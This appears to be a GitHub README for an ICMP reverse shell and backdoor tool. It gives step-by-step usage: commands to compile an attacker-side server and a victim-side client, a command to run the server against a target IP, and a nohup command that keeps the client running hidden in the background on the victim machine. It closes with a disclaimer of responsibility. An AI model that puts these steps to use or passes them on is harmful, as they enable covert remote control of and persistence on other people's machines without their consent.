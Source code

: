 # icmp_reverse_shell

# ICMP REVERSE SHELL / BACKDOOR

Hi, hope you are doing well, this project is about reverse shell using icmp, here is how it can be used

# Usage

FIrstly, compile it in your machine


Attacker:
```bash
gcc server.c -o server -pthread
```

Victim:
```bash
gcc client.c -o client -pthread
```

#### To Run the Server:

```bash
./server <target-ip>
./server 192.168.1.9
```

#### Run the client on victim machine

```bash
./client
```

You can use nohup to put the process in background

```bash
nohup ./client &
```

### Note I'm not responsible for any of your actions,
Be happy.



## References

[ICMPSH](https://github.com/bdamele/icmpsh)

[ICMPSHELL](https://github.com/sin5678/icmp_shell)

[ICMPDOOR](https://github.com/krabelize/icmpdoor)
# Reverse-Shell
